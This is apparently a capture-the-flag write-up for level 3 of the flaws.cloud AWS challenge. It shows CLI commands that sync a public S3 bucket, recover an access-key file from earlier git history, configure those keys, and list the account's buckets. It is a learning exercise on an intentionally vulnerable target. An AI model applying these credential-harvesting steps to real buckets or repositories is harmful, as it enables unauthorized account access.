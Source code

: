 # Problem
The next level is fairly similar, with a slight twist. Time to find your first AWS key! I bet you'll find something that will let you list what other buckets are.


# Solution
We start by using the same approach from the last two problems:
```
$ aws s3 ls level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
                           PRE .git/
2017-02-26 16:14:33     123637 authenticated_users.png
2017-02-26 16:14:34       1552 hint1.html
2017-02-26 16:14:34       1426 hint2.html
2017-02-26 16:14:35       1247 hint3.html
2017-02-26 16:14:33       1035 hint4.html
2020-05-22 11:21:10       1861 index.html
2017-02-26 16:14:33         26 robots.txt
```

This is something we haven't seen before. An initialized Git version control within the bucket. Let's download this bucket and see what's inside:
```
$ mkdir level3
$ cd level3
$ aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud .
```

I dug around the `.git` directory but didn't find anything too juicy. I then decided to check the logs:
```
$ git log
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

Huh! It looks like there was an initial commit then a "correctional" commit. Let's check to see what the files looked like at the point in time of the first commit:
```
$ git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61

$ ls
access_keys.txt         hint1.html              hint3.html              index.html
authenticated_users.png hint2.html              hint4.html              robots.txt
```

Boom! Access keys. These keys are used to access an AWS account through the command line. Let's configure our current command line tool to use these keys:
```
$ aws configure
# enter access keys here
```

Then, we can go look for other buckets as the initial problem statement hinted at.
```
$ aws s3 ls
2020-06-25 10:43:56 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2020-06-26 16:06:07 config-bucket-975426262029
2020-06-27 03:46:15 flaws-logs
2020-06-27 03:46:15 flaws.cloud
2020-06-27 08:27:14 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2020-06-27 08:27:14 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2020-06-27 08:27:14 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2020-06-27 08:27:15 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2020-06-27 08:27:15 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2020-06-27 19:29:47 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```

Done! We see all the different Buckets this account has access to. We can move on to level 4.


# References
https://docs.aws.amazon.com/cli/latest/reference/s3/index.html
https://docs.aws.amazon.com/general/latest/gr/aws-sec-cred-types.html
http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud.s3.amazonaws.com
